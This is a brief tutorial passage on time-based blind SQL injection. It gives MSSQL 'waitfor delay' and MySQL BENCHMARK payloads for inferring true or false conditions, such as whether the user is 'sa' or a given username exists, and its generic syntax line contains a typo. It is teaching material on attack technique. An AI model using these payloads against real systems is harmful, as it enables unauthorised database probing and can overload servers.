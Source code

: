 # Time-Based Blind SQLi

Other technique for Blind SQLi is called Time-Based Blind SQLi, in which time is used to infer a TRUE or FALSE condition,

Syntax:

```text
%SQL condition% waitfor delay '0:0;5'
```

Examples:

```text
Check if the current user is 'sa' (MSSQL)
if (select user) = 'sa' waitfor delay '0:0:5'
```

```text
Guess a database value (MySQL) 
IF EXISTS (SELECT * FROM users WHERE username = 'armando') BENCHMARK(1000000,MD5(1))
```

Benchmark will perform md5\(1\) functions 1000000 times if the IF clause is true, consuming time. You should be careful with this because it can affect the server load.

